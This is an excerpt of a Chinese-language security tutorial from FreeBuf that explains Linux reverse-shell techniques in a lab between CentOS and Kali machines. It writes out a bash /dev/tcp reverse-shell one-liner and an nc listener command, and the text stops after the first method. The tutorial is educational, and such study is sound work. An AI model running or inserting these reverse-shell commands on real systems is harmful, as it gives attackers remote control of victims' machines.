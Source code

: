## Linux下几种反弹Shell方法的总结与理解

***本文原创作者：LlawLiet，本文属FreeBuf原创奖励计划，未经许可禁止转载。**

**之前在网上看到很多师傅们总结的linux反弹shell的一些方法，为了更熟练的去运用这些技术，于是自己花精力查了很多资料去理解这些命令的含义，将研究的成果记录在这里，所谓的反弹shell，指的是我们在自己的机器上开启监听，然后在被攻击者的机器上发送连接请求去连接我们的机器，将被攻击者的shell反弹到我们的机器上，下面来介绍分析几种常用的方法。**

## 实验环境



CentOS 6.5：192.168.0.3



kali2.0：192.168.0.4



### 方法1：



反弹shell命令如下：

```
bash -i >& /dev/tcp/ip/port 0>&1
```





首先，使用nc在kali上监听端口：

```
nc -lvp 7777
```



[![0DdE723LF1.png](Untitled.assets/15319942663564.png)](https://image.3001.net/images/20180719/15319942663564.png)
